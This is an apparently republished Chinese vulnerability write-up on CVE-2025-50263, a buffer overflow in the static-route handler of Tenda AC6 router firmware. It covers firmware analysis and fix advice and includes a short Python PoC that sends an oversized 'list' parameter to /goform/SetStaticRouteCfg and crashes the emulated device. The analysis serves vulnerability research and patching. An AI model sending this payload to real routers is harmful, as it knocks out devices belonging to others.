# Tenda AC6路由器CVE-2025-50263缓冲区溢出漏洞分析与利用-先知社区

> **来源**: https://xz.aliyun.com/news/19099  
> **文章ID**: 19099

---

## 漏洞信息

|  |  |
| --- | --- |
| **漏洞名称** | Tenda AC6缓冲区溢出漏洞 |
| **漏洞编号** | CVE-2025-50263 |
| **漏洞类型** | 缓冲区溢出漏洞 |
| **威胁等级** | 高 |
| **漏洞详情** | Tenda AC6 v15.03.05.16\_multi通过列表参数在 fromSetRouteStatic 函数中存在缓冲区溢出漏洞。 |
| **影响范围** | Tenda AC6 15.03.05.16\_multi |
| **固件下载地址** | https://www.tenda.com.cn/material/show/2661 |

​

## 漏洞挖掘方法

缓冲区溢出是一种常见的计算机安全漏洞，通常发生在程序处理用户输入时，程序试图将过多的数据写入到分配的内存缓冲区中，导致数据溢出到相邻内存区域，从而破坏数据或控制程序的执行流。这种漏洞的根本问题在于，程序没有对缓冲区的大小进行适当的边界检查，使得写入的数据超出了预定的内存区域，导致程序错误、崩溃，甚至可能被攻击者利用来执行恶意代码。

### 查找webserver

通常我们需要先去找路由器会暴露在网络上的服务，一般是webserver，首先我们可以先在 squashfs-root 目录下，搜索文件名中带有“httpd”的文件。

find . -name "\*httpd\*"

因为webserver 的文件名通常都含有 httpd：



这里找到bin文件夹中有两个文件带有“httpd”，“dhttpd”可能是开发版的httpd，而 httpd就是我们查找到路由器暴露在网络上的服务 webserver。

​

接下来分析一下squashfs-root/etc\_ro目录下的启动文件inittab，因为inittab在Linux系统和路由器中定义了系统启动、运行级别、切换时应该启动哪些进程。



发现启动文件开启了/etc\_ro/init.d/rcS



查看/etc\_ro/init.d/rcS 的内容



​

这里的cp -rf ./webroot\_ro/\* ./webroot/就是模拟环境时 qemu 用户级模拟的第一步操作，将 webroot\_ro 目录下的文件全部复制到 webroot 中。

### 使用emba查找漏洞点

使用emba 对固件进行扫描

sudo ./emba -l ./logs/TendaAC\_6 -f /home/ml/IoT\_ Dev\_Vul/Routers/Router\_Vuls/\_US\_AC6V1.0BR\_V15.03.05.16\_multi\_TD01.bin.extracted/squashfs-root

根据分析结果发现httpd使用了大量的危险函数，例如下图：



fprintf: 56 次调用、存在格式字符串漏洞 ；mmap: 1 次调用、内存映射，有正确的错误处理；再根据危险函数的在 ida 中静态分析处理即可。

## 漏洞原理分析

根据CVE显示Tenda AC6 v15.03.05.16\_multi通过列表参数在fromSetRouteStatic函数中存在缓冲区溢出漏洞。



​

查看sub\_2B7C4、sub\_77EC8两个函数





​

观察分析代码发现在伪代码fromSetRouteStatic函数中，v5 和 v1 变量的赋值会导致缓冲区溢出漏洞。

​

其中漏洞的关键点浅析为以下几部分：

1. fromSetRouteStatic 函数中的 v5 和 v1：

v5 通过调用 sub\_2B7C4 函数赋值，该函数可能返回一个指向不受控内存区域的指针。函数没有正确验证输入数据，可能导致指针指向不合法的内存区域。

v5 随后被传递到 sub\_77EC8 函数中。此时 v5 未经过验证，使用无效指针可能会导致程序崩溃或发生缓冲区溢出。

2. sub\_2B7C4 函数中的 sscanf 调用：

s scanf 函数在处理来自外部输入的数据时，可以看到没有对缓冲区进行边界检查，会导致缓冲区溢出。

特别还是在没有指定读取长度的情况下，sscanf 可能会将过多的字符写入缓冲区，造成溢出。

3. 潜在的缓冲区溢出：

当v5 指向的内存区域不受控制或大小不符合预期时，后续的内存操作（如 sub\_77EC8）可能会覆盖无关内存，导致缓冲区溢出或内存泄漏。

此类问题常见于使用不安全的函数（如sscanf、strcpy、sprintf）时，且未进行充分的输入验证。

​

我们要进一步跟进分析交叉引用：



其中，.got:fromSetRouteStatic\_ptr：动态链接程序中用来存储函数地址的区域，GOT中定义fromSetRouteStatic函数的地址。

​

分析.got:fromSetRouteStatic\_ptr



​

首先我们可以看到fromSetRouteStatic\_ptr是一个常量，它存储了fromSetRouteStatic函数的地址，并且这个地址被记录在.got中，供sub\_42240函数使用。

其次，跟进函数sub\_42240:

​

看起来是一个初始化函数，它负责注册一系列的回调函数，这些回调函数对应于不同的路由路径或操作。

这个函数通过调用sub\_FE58和sub\_16F24函数来实现注册。



这行代码表示当路由路径为goform/SetStaticRouteCfg时，fromSetRouteStatic函数将被调用来处理请求。

​

上述分析的流程具体如下：

sub\_2B7C4函数没有充分验证的情况下返回用户控制的字符串。在fromSetRouteStatic中，返回的字符串直接用于strcpy(s,src)中，将src内容复制到s，并未执行边界检查。

sub\_16F24函数则负责将特定的路由路径（如SetStaticRouteCfg）与对应的处理函数（如fromSetRouteStatic）关联起来。当网络设备接收到一个指向特定路由路径的请求时，sub\_16F24会调用相应的处理函数来执行操作。

sub\_42378函数表示当路由路径为 goform/SetStaticRouteCfg 时，fromSetRouteStatic函数将被调用来处理请求。

故，我们可以针对url = "http://XXXX/goform/SetStaticRouteCfg"构造长度超过512字节的溢出载荷。

## 流量分析

打开 Wireshark，进行流量捕获



## 漏洞利用

PoC

qemu-arm-static ip:192.168.100.2（虚拟网桥 br0）

|  |
| --- |
| import requests  url = "http://192.168.100.2/goform/SetStaticRouteCfg"  data = {  "list":'a'\*1000  }  response = requests.get(url,params=data) |

执行python CVE-2025-50263.py



提示Segmentation fault(core dumped)并自动退出连接。

## 修复建议

1. 验证 v5 的有效性：

在 sub\_2B7C4 和 sub\_77EC8 中，确保所有传递的指针（如 v5）都指向有效的内存区域，并在使用之前检查其有效性。

2. 安全的数据读取：

使用 snprintf、strncpy 等安全函数，避免直接使用不受控的输入数据来填充缓冲区，防止溢出。

3. 增加内存边界检查：

对所有涉及缓冲区操作的代码进行边界检查，确保输入数据不会超出缓冲区的限制，避免溢出。

​

代码修复：

|  |
| --- |
| int \_\_fastcall fromSetRouteState(int a1)  {  //检查v5的有效性  ​v5 = sub\_2B7C4(a1, (int)"list", (int)&unk\_E2118);  ​if (!v5) {  ​v6 = 1;  ​goto response;  ​}  ​//安全调用  ​v1 = sub\_77EC6("adv.staticroute", v5, 126);  ​if (v1 && CommitCom(v1)) {  ​snprintf(s, sizeof(s), "advance\_type=%d", 8);  ​send\_msg\_to\_netctrl(5, s);  ​} else {  ​v6 = 1;  ​}  response:  //响应代码  } |

## 参考文献

<https://www.cve.org/CVERecord?id=CVE-2025-50263>

<https://github.com/faqiadegege/IoTVuln/blob/main/tendaAC6_SetStaticRouteCfg_list_overflow/detail.md>
